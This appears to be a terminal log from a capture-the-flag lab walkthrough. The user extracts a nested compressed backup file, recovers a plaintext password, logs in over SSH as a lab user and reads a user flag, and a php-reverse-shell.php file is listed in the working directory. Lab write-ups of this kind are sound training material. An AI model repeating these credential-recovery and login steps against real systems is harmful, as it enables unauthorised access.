 ```sh
❯ ls
Command executed at: 2025-03-23 14:11:41
backup  _backup.out.extracted  password_backup  php-reverse-shell.php  Scans
❯ binwalk _backup.out.extracted/password
Command executed at: 2025-03-23 14:12:05

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             bzip2 compressed data, block size = 900k

❯ bzip2 -d _backup.out.extracted/password
Command executed at: 2025-03-23 14:12:20
bzip2: Can't guess original name for _backup.out.extracted/password -- using _backup.out.extracted/password.out
❯ binwalk _backup.out.extracted/password.out
Command executed at: 2025-03-23 14:12:30

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             POSIX tar archive (GNU), owner user name: ".txt"

❯ tar xf _backup.out.extracted/password.out
Command executed at: 2025-03-23 14:12:43
❯ ls
Command executed at: 2025-03-23 14:12:44
backup  _backup.out.extracted  password_backup  password.txt  php-reverse-shell.php  Scans
❯ cat password.txt
Command executed at: 2025-03-23 14:12:49
5d<wdCbdZu)|hChXll
❯ ssh floris@10.129.201.151
Command executed at: 2025-03-23 14:12:55
floris@10.129.201.151's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Mar 23 21:12:55 UTC 2025

  System load:  0.01              Processes:            176
  Usage of /:   62.3% of 3.87GB   Users logged in:      0
  Memory usage: 22%               IP address for ens33: 10.129.201.151
  Swap usage:   0%


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Wed Sep  8 11:42:07 2021 from 10.10.14.15
floris@curling:~$ cat user.txt
281d2bc862797f1c4dbe827fe3cda065 
```
